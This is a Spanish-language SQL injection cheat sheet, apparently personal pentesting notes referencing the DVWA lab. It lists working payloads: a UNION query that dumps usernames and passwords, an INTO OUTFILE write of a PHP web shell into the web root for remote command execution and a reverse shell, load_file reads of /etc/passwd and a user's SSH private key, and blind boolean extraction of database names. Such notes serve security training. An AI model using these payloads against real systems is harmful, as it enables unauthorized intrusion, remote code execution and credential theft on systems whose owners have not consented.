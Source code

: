 ```bash 
# DVWA
❯ ' union select user,password from users #         
```

## Subir un archivo a una ruta especifica en la maquina victima

```bash 
# Subir un achivo que contiene codigo PHP malicioso en una ruta especifica para hacer ejecucion remota de comandos 'RCE' 

❯ ' union select "<?php system($_REQUEST['cmd']); ?>" into outfile "/var/www/html/shell.php" 

# Ahora vamos a la ruta y con el archov que hemos subido, podemos ejecutar comandos de la siguiente manera:
	shell.php?cmd=whoami
# Podemos meter los comandos pra crear la 'Revershell'
```

## Leer (cargar) archivos de la maquina victima 

```bash 
❯ ' union select load_file("/etc/passwd")-- -                  # Leer el '/etc/passwd' de la maquina victima 
❯ ' union select load_file("/home/user/.ssh/id_rsa")-- -       # Leer el 'id_rsa' del usuario de la maquina victima
```

## Blind Boolean

```bash 
# En este tipo de inyecciones te devuelve '1 = True', '0 = False', o sea, o se muestra o no se muestra 

❯ and 1=1 

# Forma: (Sentencia, 1, 0)=1, primero indicamos la sentencia, luego indicamos que queremos que devuelva si es verdadero (o sea 1), por ultimo que queremos que devuelva si es falso (o sea 0) 
❯ and (if(2>1,1,0))=1       # Indicamos que 2>1, si esto es verdad entonces nos devolvera 1, por lo tanto 1=1 = True
❯ and (if(0>1,1,0))=1       # Indicamos que 0>1, como esto no es verdad entonces nos devolvera 0, por lo tanto 0=1 = False

❯ and ( if( substring(database(),1,1)='p' ,1,0))=1       # Indicamos que la primer letra de la base de datos es igual a 'p', si esto es verdad entonces entonces devolvera un 1, por lo que tendriamos 1=1 = True. El numero que debemos ir variando es el primer 1 que se encuentra al lado de 'database()' ya que este numero es el encargado de moverse al siguiente caracter en el nombre de la DB a buscar. 
	❯ and ( if( substring(database(),2,1)='r' ,1,0))=1
```
